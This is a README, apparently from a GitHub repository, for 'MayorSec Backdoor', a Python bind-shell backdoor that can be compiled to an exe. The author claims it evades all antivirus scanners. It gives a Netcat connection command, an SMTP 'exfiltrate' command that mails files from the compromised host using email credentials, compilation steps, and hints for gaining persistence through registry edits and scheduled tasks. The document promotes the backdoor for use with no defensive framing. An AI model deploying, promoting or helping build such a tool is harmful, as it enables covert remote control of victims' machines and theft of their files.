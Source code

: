 # MayorSec Backdoor
[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)
### Fully functioning bind-type backdoor
![MayorSecBackdoorLite](/images/backdoorlite.png)

This backdoor is a fully functioning bind shell and lite version of my full functioning Gatekeeper tool. It can be ran with Python or compiled to an exe and has full functioning command line access with Windows and Linux.  When compiled it bypasses all Antivirus solutions on Antiscan.me.

## Usage
Connect using Netcat after changing the port value to whatever you wish (default is 8180)

```nc ipaddr port```

Once connected you can utilize commands as normal.  If you wish to use Powershell commands, make sure to lead with 

```powershell <command here>```

This will execute the command.  Note that some Powershell functionality may crash the Netcat session requiring a reconnect.  

## SMTP Exfiltration
![SMTPExfil](/images/smtpexfil.png)
```exfiltrate filename <sender_email> <sender_email_password> <receiver_email>```

## Compilation
This tool can be ran on systems that have Python3 installed, or can be compiled to exe using Pyinstaller.  I recommend using the GUI version of Pyinstaller called "Auto Py to EXE" which allows for the easy addition of an exe icon for the application.  The included .exe is set to utilize port 8180.

## Notes
Windows will likely require a firewall rule in order to utilize this tool on machines with firewall enabled.  You can achieve persistence through typical manual Registry edits, scheduled tasks, etc. 

